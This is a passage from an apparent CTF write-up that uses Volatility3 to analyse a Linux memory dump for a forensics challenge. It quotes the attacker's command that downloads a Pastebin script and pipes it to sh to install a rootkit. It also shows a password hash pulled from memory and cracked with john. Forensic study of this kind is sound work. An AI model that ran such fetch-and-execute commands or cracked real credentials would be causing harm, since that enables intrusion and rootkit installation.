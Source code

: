 In this challenge, the Vol3 does not have the symbols for this version Linux so we have to create it or we can download it from github :D

Link: https://github.com/Abyss-W4tcher/volatility3-symbols

First, I use plugin `pslist` and `pstree` to check the. To answer this question, we have to focus SSH process first and look at child of it. The answer is `13608`

`python3 ~/Desktop/Tools/volatility3/vol.py -f memdump.mem linux.pslist`

![image]({{ site.url }}/assets/holmesctf25/tunnel/2.png)

`python3 ~/Desktop/Tools/volatility3/vol.py -f memdump.mem linux.pstree`

![image]({{ site.url }}/assets/holmesctf25/tunnel/3.png)

#### Question 3: After the initial information gathering, the attacker authenticated as a different user to escalate privileges. Identify and submit that user's credentials.

To find what user the attacker authenticated as, we can dump the bash history

`python3 ~/Desktop/Tools/volatility3/vol.py -f memdump.mem linux.bash`

![image]({{ site.url }}/assets/holmesctf25/tunnel/4.png)

We know the user is `jm`. So what about password? We know that all password in Linux are saved /etc/shadow in hash form. So using strings + grep, we can find the value of it :D

```bash
└─$ strings memdump.mem > strings.txt

└─$ cat strings.txt | grep -i 'jm:' 
jM:Uz
jm:$1$jm$poAH2RyJp8ZllyUvIkxxd0:0:0:root:/root:/bin/bash
jm:$1$jm$poAH2RyJp8ZllyUvIkxxd0:0:0:root:/root:/bin/bash
# ......
```

Well we have the value, let's try crack it by using hashcat/john.

`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

And we have the password is `WATSON0`. Therefore, the answer is `jm:WATSON0`

#### Question 4: The attacker downloaded and executed code from Pastebin to install a rootkit. What is the full path of the malicious file?

The output of plugin `linux.bash` make we know attacker download and execute code by using command `wget -q -O- https://pastebin.com/raw/hPEBtinX|sh`

Because it's rootkit which hide in **kernel** module. We can use plugin `linux.hidden_modules` to check it

`python3 ~/Desktop/Tools/volatility3/vol.py -f memdump.mem linux.hidden_module`

![image]({{ site.url }}/assets/holmesctf25/tunnel/5.png)
